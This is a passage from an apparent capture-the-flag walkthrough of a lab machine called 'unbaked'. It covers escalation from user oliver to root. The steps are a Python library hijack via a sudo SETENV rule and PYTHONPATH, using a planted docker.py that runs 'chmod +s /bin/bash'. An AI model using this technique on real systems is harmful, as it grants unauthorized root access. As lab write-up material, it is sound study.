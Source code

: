 
> Note: The image must be very clear, otherwise it'll recognize other characters.

I'm user `oliver`!

### Host oliver to Host root

**Sudo permission:**
```shell
oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```

**User `oliver` can run `/usr/bin/python /opt/dockerScript.py` as root! Also, we can set an environment variable.**

**`/opt/dockerScript.py`:**
```py
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```

This Python script will: 

1. Using `docker.from_env()` to connect using the default socket or the configuration in the environment variable
2. Using `client.containers.run()` to run the specified container

**Armed with above information, we can hijack the `docker` library!**

**To do so, we can create an evil `docker` Python script:**
```shell
oliver@unbaked:/dev/shm$ cat << EOF > docker.py
> import os
> 
> os.system("chmod +s /bin/bash")
> EOF
```

This Python script will add a SUID sticky bit to `/bin/bash`, so we can spawn a root Bash shell.

**Then, run `/opt/dockerScript.py` with `PYTHON_PATH` environment variable:**
```shell
oliver@unbaked:/dev/shm$ sudo PYTHONPATH=/dev/shm /usr/bin/python /opt/dockerScript.py
Traceback (most recent call last):
  File "/opt/dockerScript.py", line 6, in <module>
    client = docker.from_env()
AttributeError: 'module' object has no attribute 'from_env'
```
